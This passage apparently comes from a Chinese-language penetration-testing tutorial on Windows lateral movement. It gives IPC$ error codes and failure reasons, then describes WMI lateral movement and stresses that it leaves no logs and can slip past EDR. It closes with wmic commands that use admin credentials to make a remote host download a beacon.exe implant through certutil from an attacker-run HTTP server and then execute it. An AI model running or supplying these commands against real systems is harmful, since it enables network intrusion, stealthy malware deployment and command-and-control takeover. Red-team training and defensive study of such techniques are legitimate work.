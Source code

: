 > 常见问题:

```
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
51：网络问题，Windows无法找到网络路径
53：找不到网络路径，可能是IP地址错误. 目标未开机. 目标Lanmanserver服务未启动. 有防火墙等问题
67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
1326：账号密码错误
1792：目标NetLogon服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

> 建立IPC失败的原因:

```
（a）目标系统不是NT或以上的操作系统
（b）对方没有打开IPC$共享
（c）对方未开启139. 445端口，或者被防火墙屏蔽
（d）输出命令. 账号密码有错误
```

## WMI横向

`WMI`是通过`135`端口进行利用，支持明文用户密码或者`hash`的方式认证，并且该方法不会在目标日志系统留下痕迹。使用wmic远程执行命令，在远程系统中启动`windows management lnstrumentation` 服务（目标服务器需要开放`135`端口，`wmic`会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic将无法进行连接。`wmic命令没有回显`，需要使用ipc$和type命令来读取信息，若使用wmic执行恶意程序，`将不会留下日志`。

利用前提和注意事项：

1. 目标防火墙已事先允许135. 445端口连入，且本地杀软. EDR未拦截wmic.exe,cmd.exe等执行；
2. 有些域账户只允许在指定的域内机器上才可登录，所以如果发现账密是对的，却会提示 "拒绝访问" ；
3. 出现提示"无效句柄" 之类的错误，可尝试把目标ip换成机器名或者把机器名换成ip，ip或机器名用双引号包起来；
4. 当提示 "RPC服务器不可用"时，有可能是目标防火墙导致135端口不通，或者目标系统没开135端口，要么就是被对方杀软或EDR拦截。

### wmic

#### wmic

无需上传第三方软件，利用系统内置程序，执行过程中有单模式执行和交互式执行
可以只执行命令，`或者反弹shell`
单命令执行，执行后无结果回显，可以将木马上传到该内网web目录下，然后调用文件下载命令上线cs：

```bash
# 请先提前搭建一个http服务器 如python一句话或phpstudy 放入木马exe文件

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"

# 运行文件并上线

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "c:\windws\system32\cmd.exe c:\beacon.exe"
```
